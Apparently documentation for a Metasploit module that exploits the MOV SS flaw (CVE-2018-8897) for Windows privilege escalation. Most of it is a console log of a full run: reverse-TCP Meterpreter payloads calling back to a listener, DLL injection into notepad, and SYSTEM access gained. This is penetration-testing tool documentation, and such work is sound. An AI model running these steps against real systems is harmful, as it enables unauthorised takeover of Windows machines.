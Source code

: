## Description

This module exploits a MOV SS vulnerability that is specifically made against Microsoft Windows
(except for Windows XP).

Depending on the value of `USE_INJECTION` It will either inject a dll with the exploit
code into a process, or it will upload a pre-compiled exploit onto the target machine, followed
by the final payload (such as a Meterpreter) in order to gain remote code execution.

## Vulnerable Target

Please note that this module may not work with certain hypervisors (such as VMWare). You should
test it on a real machine if possible.

## Verification Steps
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: DESKTOP-QGIC71I\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-QGIC71I
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/mov_ss
msf5 exploit(windows/local/mov_ss) > show options

Module options (exploit/windows/local/mov_ss):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXECUTE_DELAY  3                no        The number of seconds to delay before executing the exploit if USE_INJECTION=false
   EXPLOIT_NAME                    no        The filename to use for the exploit binary if USE_INJECTION=false (%RAND% by default).
   PATH                            no        Path to write binaries if if USE_INJECTION=false(%TEMP% by default).
   PAYLOAD_NAME                    no        The filename for the payload to be used on the target host if USE_INJECTION=false (%RAND%.exe by default).
   SESSION        1                yes       The session to run this module on.
   USE_INJECTION  true             yes       Use in-memory dll injection rather than exe file uploads.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.111  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/mov_ss) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/mov_ss) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 exploit(windows/local/mov_ss) > set lport 4567
lport => 4567
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Target Looks Good... trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 4964 launched.
[*] Reflectively injecting the exploit DLL into 4964...
[*] Exploit injected. Injecting payload into 4964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.136.142 - Meterpreter session 3 closed.  Reason: User exit
msf5 exploit(windows/local/mov_ss) > set USE_INJECTION false
USE_INJECTION => false
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Exploit uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Running exploit C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe with payload C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Sending stage (206403 bytes) to 192.168.136.142
^C[-] Exploit failed: Interrupt 
msf5 exploit(windows/local/mov_ss) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  DESKTOP-QGIC71I\msfuser @ DESKTOP-QGIC71I  192.168.135.111:4567 -> 192.168.136.142:49696 (192.168.136.142)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-QGIC71I      192.168.135.111:4567 -> 192.168.136.142:49699 (192.168.136.142)

msf5 exploit(windows/local/mov_ss) > exit
```

## Build Instructions
For both the dll and exe, use Visual studio solutions found in
./external/source/exploits/cve-2018-8897
then copy the resulting binaries to
./data/exploits/cve-2018-8897
